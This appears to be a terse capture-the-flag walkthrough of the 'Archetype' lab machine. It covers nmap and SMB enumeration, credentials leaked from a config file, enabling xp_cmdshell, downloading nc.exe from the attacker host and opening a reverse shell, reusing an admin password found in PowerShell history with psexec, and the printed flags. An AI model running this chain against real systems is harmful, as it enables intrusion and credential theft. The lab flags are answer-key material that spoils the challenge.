 inet 10.10.14.69  netmask 255.255.254.0
inet6 fe80::d484:44d2:fd97:c02c

# Archetype

## nmap

sudo nmap -sC -sV -A 10.10.10.27

PORT     STATE SERVICE      VERSION
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds Windows Server 2019 Standard 17763 microsoft-ds
1433/tcp open  ms-sql-s     Microsoft SQL Server 2017 14.00.1000.00; RTM

target name: ARCHETYPE
Host script results:
| ms-sql-info: 
|   10.10.10.27:1433: 
|     Version: 
|       name: Microsoft SQL Server 2017 RTM
|       number: 14.00.1000.00
|       Product: Microsoft SQL Server 2017
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   account_used: "guest"
|   authentication_level: "user"
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2021-09-19T08:27:51
|_  start_date: N/A
| smb-os-discovery: 
|   OS: Windows Server 2019 Standard 17763 (Windows Server 2019 Standard 6.3)
|   Computer name: "Archetype"
|   NetBIOS computer name: ARCHETYPE\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2021-09-19T01:27:52-07:00
|_clock-skew: mean: 1h49m02s, deviation: 3h07m52s, median: 25m01s

Sharename       Type      Comment
---------       ----      -------
ADMIN$          Disk      Remote Admin
backups         Disk      
C$              Disk      Default share
IPC$            IPC       Remote IPC

altname: PROD~1.DTS
create_time:    一  1月 20 20時20分57秒 2020 CST
access_time:    一  1月 20 20時23分02秒 2020 CST
write_time:     一  1月 20 20時23分02秒 2020 CST
change_time:    一  1月 20 20時23分18秒 2020 CST
attributes: RA (21)
stream: [::$DATA], 609 bytes

prod.dtsConfig in backups

<DTSConfiguration>
    <DTSConfigurationHeading>
        <DTSConfigurationFileInfo GeneratedBy="..." GeneratedFromPackageName="..." GeneratedFromPackageID="..." GeneratedDate="20.1.2019 10:01:34"/>
    </DTSConfigurationHeading>
    <Configuration ConfiguredType="Property" Path="\Package.Connections[Destination].Properties[ConnectionString]" ValueType="String">
        <ConfiguredValue>Data Source=.;Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc;Initial Catalog=Catalog;Provider=SQLNCLI10.1;Persist Security Info=True;Auto Translate=False;</ConfiguredValue>
    </Configuration>
</DTSConfiguration>

[[domain/]username[:password]@]<targetName or address>

impacket-mssqlclient sql_svc:M3g4c0rp123@10.10.10.27 -windows-auth

sp_configure make sure xp_cmdshell is opened

local runs python3 -m http.server to upload nc.exe makes remote wget

xp_cmdshell powershell wget http://10.10.14.69:8000/nc.exe -outfile %TEMP%\nc.exe

nc -lvnp 5678

xp_cmdshell powershell %TEMP%\nc.exe -nv 10.10.14.69 5678 -e cmd.exe

user.txt
3e7b102e78218e935bf3f4951fec21a3

powershell history.txt
C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine

net.exe use T: \\Archetype\backups /user:administrator MEGACORP_4dm1n!!
exit

impacket-psexec administrator@10.10.10.27
or impacket-psexec administrator:'MEGACORP_4dm1n!!'@10.10.10.27

root.txt
b91ccec3305e98240082d4474b848528
